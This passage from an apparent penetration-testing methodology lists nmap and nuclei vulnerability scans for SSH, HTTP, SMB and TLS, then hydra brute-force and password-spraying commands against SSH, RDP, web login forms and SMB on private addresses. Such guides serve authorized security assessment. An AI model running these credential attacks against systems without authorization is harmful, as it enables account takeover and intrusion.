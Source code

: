 ### 3.2 Service-Specific Vulnerability Testing
```bash
# SSH vulnerabilities
nmap --script ssh-hostkey,ssh-auth-methods -p 22 -iL live-hosts.txt

# HTTP/HTTPS vulnerabilities
nmap --script http-vuln-* -p 80,443 -iL live-hosts.txt

# SMB vulnerabilities
nmap --script smb-vuln-* -p 445 -iL live-hosts.txt
```

### 3.3 SSL/TLS Assessment
```bash
# SSL/TLS configuration testing
nmap --script ssl-enum-ciphers -p 443 -iL live-hosts.txt

# SSL certificate analysis
nuclei -l live-hosts.txt -tags ssl,tls -o ssl-issues.txt
```

## Phase 4: Credential Attacks

### 4.1 Default Credentials Testing
```bash
# Common default credentials
nuclei -l live-hosts.txt -tags login,default-creds -o default-creds.txt

# Service-specific defaults
nmap --script http-default-accounts -p 80,443 -iL live-hosts.txt
```

### 4.2 Brute Force Attacks
```bash
# SSH brute force
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10

# RDP brute force
hydra -L users.txt -P passwords.txt rdp://192.168.1.20

# HTTP form brute force
hydra -L users.txt -P passwords.txt 192.168.1.30 http-post-form "/login:username=^USER^&password=^PASS^:Failed"
```

### 4.3 Password Spraying
```bash
# Domain password spraying (if in domain environment)
# Use collected usernames with common passwords
hydra -L domain-users.txt -p "Password123!" smb://192.168.1.0/24
```
